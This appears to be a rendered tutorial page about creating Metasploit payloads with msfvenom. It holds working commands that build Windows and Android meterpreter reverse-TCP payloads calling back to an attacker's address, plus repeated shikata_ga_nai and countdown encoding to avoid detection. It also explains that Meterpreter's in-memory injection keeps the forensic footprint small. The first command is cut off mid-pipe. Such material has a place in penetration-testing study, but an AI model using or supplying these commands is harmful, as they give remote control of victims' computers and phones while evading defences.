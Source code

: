 ```
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
```

```
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```


---

### Creating Metasploit payloads with Msfvenom

Meterpreter is deployed using in-memory DLL injection. As a result, Meterpreter resides entirely in memory and writes nothing to disk. 

No new processes are created as Meterpreter injects itself into the compromised process, from which it can migrate to other running processes. As a result, the forensic footprint of an attack is very limited.

**A DLL is a library that contains code and data that can be used by more than one program at the same time.**

A reverse shell attack exploits vulnerabilities in a target system, allowing the attacker to gain remote access and control over the victim’s computer. It involves establishing a shell session by opening communication channels between the attacker’s machine and the target system.


**Basic Syntax:**

```
msfvenom -p <payload> <options> -f <format> -o <output_file>
```

**Where:**

`-p <payload>` : Specifies the payload to generate.

`<options>`  : These vary depending on the payload.

- `LHOST`: The attacker's IP address.
- `LPORT`: The attacker's listening port.

`-f <format>` : Specifies the output format, such as `exe`, `apk`, `python`, or `raw`.

`-o <output_file>` : Specifies the output file name and path.


**Common Examples:**

- **Generating a Windows reverse TCP payload:**

```c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f exe -o payload.exe
```

- **Generating an Android reverse TCP payload:**

```c
msfvenom -p android/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f apk -o payload.apk
```


---